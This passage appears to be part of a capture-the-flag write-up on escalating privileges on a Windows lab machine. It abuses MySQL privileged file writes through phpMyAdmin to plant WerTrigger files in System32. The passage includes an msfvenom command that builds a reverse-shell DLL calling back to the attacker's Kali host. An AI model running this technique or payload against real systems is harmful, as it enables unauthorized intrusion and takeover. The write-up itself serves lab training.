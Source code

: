![Craft214.png](/assets/images/Craft2/Craft214.png){: .center-aligned width="600px"}


If you click it, you get a pop up in the form of a`javascript:alert('Under Constuction)'`. But this is how the website *and* the DB are managed. You can see that by going to view port 80 of 240.0.0.1 port, by default in the browser. 

![Craft215.png](/assets/images/Craft2/Craft215.png){: .center-aligned width="600px"}

At this point, it becomes really important the MySQL in this case has the ability to do privileged writes, meaning that we can write into directories out apache user doesn't have permission to write to. Now if we execute from those directories, it doesn't mean that it will execute as admin (I tried to move a reverse shell in System32 and execute it), but there are some additional exploits we can run if we have this capability. [PayloadsAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#wertrigger)has some examples for us here, and we can go with [WerTrigger](https://github.com/sailay1996/WerTrigger). *It looks like there are a couple of other options, but they require us to build something which is iffy when I'm using ARM or to write to a directory which we cannot do using the SQL portal in PHPMyAdmin.* We need to clone the repo, the upload three files into System32, though in our case we're going to replace one of them (phoneinfo.dll) with a reverse shell generated using msfvenom: ` msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kaliIP LPORT=445 -f dll > phoneinfo.dll`. We then upload all of these using the smb server (any method will do of course) and then transfer them using the SQL page from within PHPMyAdmin. 
